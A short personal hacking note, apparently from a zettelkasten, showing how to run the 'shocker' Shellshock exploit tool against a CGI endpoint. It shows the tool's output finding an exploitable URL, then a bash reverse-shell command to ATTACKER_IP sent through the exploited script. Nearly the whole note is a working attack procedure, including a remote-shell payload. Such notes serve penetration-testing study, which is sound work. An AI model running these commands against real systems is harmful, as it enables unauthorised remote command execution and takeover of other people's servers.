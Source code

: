 # shellshock python2 exploit reverse shell usage
```
python2 shocker.py -H $IP --cgi /cgi-bin/test/test.cgi

   .-. .            .
  (   )|            |
   `-. |--. .-.  .-.|.-. .-. .--.
  (   )|  |(   )(   |-.'(.-' |
   `-' '  `-`-'  `-''  `-`--''  v1.1

 Tom Watson, tom.watson@nccgroup.trust
 https://www.github.com/nccgroup/shocker

 Released under the GNU Affero General Public License
 (https://www.gnu.org/licenses/agpl-3.0.html)


[+] Single target '/cgi-bin/test/test.cgi' being used
[+] Checking connectivity with target...
[+] Target was reachable
[+] Looking for vulnerabilities on xxxxxxxxxxxxxx:80
[+] 1 potential target found, attempting exploits
[+] The following URLs appear to be exploitable:
  [1] http://xxxxxxxxxxxxxx:80/cgi-bin/test/test.cgi
[+] Would you like to exploit further?
[>] Enter an URL number or 0 to exit: 1
[+] Entering interactive mode for http://xxxxxxxxxxxxxx:80/cgi-bin/test/test.cgi
[+] Enter commands (e.g. /bin/cat /etc/passwd) or 'quit'
  > /bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/80 0>&1'
```
` zet/20221003150499/README.md `

# Related

- [20221003150500](/zet/20221003150500/README.md) shellshock python2 exploit
- ~/kb/hacking/exploit/shellshock-exploit.md

Tags:

    #hacking #shellshock 
